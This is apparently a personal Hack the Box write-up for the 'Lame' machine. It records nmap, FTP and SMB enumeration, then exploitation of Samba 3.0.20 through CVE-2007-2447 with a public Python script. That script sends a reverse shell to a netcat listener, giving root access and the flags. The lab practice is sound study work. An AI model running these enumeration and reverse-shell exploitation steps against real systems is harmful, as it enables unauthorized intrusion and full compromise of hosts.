 ```yaml
---
title: Lame
layout: default
parent: Hack the Box OSCP Like
nav_order: 1
has_children: false
---
```


![Lame](Pasted image 20220623155843.png)

<button type="button" name="button" class="btn">#Samba</button>

# Discovery
---
## NMAP
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ sudo nmap -sC -sV 10.10.10.3
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 20:25 BST
Nmap scan report for 10.10.10.3
Host is up (0.0054s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-06-23T15:25:54-04:00
|_clock-skew: mean: 2h00m23s, deviation: 2h49m44s, median: 21s
```

## FTP
Connected to FTP Anonymously, doesn't appear to be anything there (only directories were . and .. navigating around didn't show anything promising)
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```

## SMB
SMBMap seems to find something interesting in tmp ('oh noes!' - probably because it's anonymous read/write)
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

Recursive file search shows a few files inside of TMP:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ smbmap -R -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	.\tmp\*
	dr--r--r--                0 Thu Jun 23 20:55:02 2022	.
	dw--w--w--                0 Sat Oct 31 06:33:57 2020	..
	dr--r--r--                0 Thu Jun 23 20:47:03 2022	.ICE-unix
	dw--w--w--                0 Thu Jun 23 20:47:31 2022	vmware-root
	dr--r--r--                0 Thu Jun 23 20:47:28 2022	.X11-unix
	fw--w--w--               11 Thu Jun 23 20:47:28 2022	.X0-lock
	fw--w--w--                0 Thu Jun 23 20:48:05 2022	5563.jsvc_up
	fw--w--w--             1600 Thu Jun 23 20:47:01 2022	vgauthsvclog.txt.0
	.\tmp\.X11-unix\*
	dr--r--r--                0 Thu Jun 23 20:47:28 2022	.
	dr--r--r--                0 Thu Jun 23 20:55:02 2022	..
	fr--r--r--                0 Thu Jun 23 20:47:28 2022	X0
	opt                                               	NO ACCESS
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

This command will allow us to download files, vgauth stood out, but perhaps I'm not looking at the right thing as it is empty:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ gedit 10.10.10.3-tmpvgauthsvclog.txt.0
```

# Exploitation
---
## SAMBA
We saw that the server itself is running 3.0.20 (Samba) so let's read about any potential exploits.

Identified this link: [## CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447
>The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.

Performed some searchsploit checks and found this as well
[Link](https://www.exploit-db.com/exploits/16320)
```bash
[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit samba 3.0.20
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Securi | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map scr | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow         | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow         | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC) | linux_x86/dos/36741.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit -p 16320
  Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
      URL: https://www.exploit-db.com/exploits/16320
     Path: /usr/share/exploitdb/exploits/unix/remote/16320.rb
File Type: Ruby script, ASCII text

Copied EDB-ID #16320's path to the clipboard
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit -w 16320
---------------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                              |  URL
---------------------------------------------------------------------------- --------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasp | [Link](https://www.exploit-db.com/exploits/16320)
---------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
```

Looks like these are all metasploit, and we're trying to avoid its usage for the exam.
Found a github python script to do the manual exploitation: [Link](https://github.com/amriunix/CVE-2007-2447)
This video explains how to walk through exploitation (both manual and via metasploit) [Link](https://www.youtube.com/watch?v=HPP70Bx0Eck)

First attempt was a failure because I had not installed the PYSMB module in order to import the SMBConnection:
```bash
└──╼ [★]$ python -m pip install pysmb
Collecting pysmb
  Downloading pysmb-1.2.8.zip (1.3 MB)
     |████████████████████████████████| 1.3 MB 5.3 MB/s
---
Successfully built pysmb
Installing collected packages: pysmb
Successfully installed pysmb-1.2.8
```

Ran the script, with appropriate perameters, all while running a netcat listener in a separate terminal, and can see that the connection was established:
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~/CVE-2007-2447]
└──╼ [★]$ python3 usermap_script.py 10.10.10.3 445 10.10.14.8 5000
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~/CVE-2007-2447]
└──╼ [★]$ nc -nvlp 5000
listening on [any] 5000 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.3] 34178
```

# Privilege Escalation
---
1. Identified linux version/type via uname (GNU)
2. Identified current user (root)
3. Ran a find search to locate 'user.txt' (which is typically our user flag)
4. Cat'd out User.txt and pulled the flag
5. Cd'd back out into the root user folder and saw root.txt
6. Cat'd out root.txt and pulled the flag

```bash
whoami
root
uname -a
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
find /* -name user.txt
/home/makis/user.txt
cat /home/makis/user.txt
[redacted]
find /* -name root.txt
/root/root.txt
cat /root/root.txt
[redacted]
```

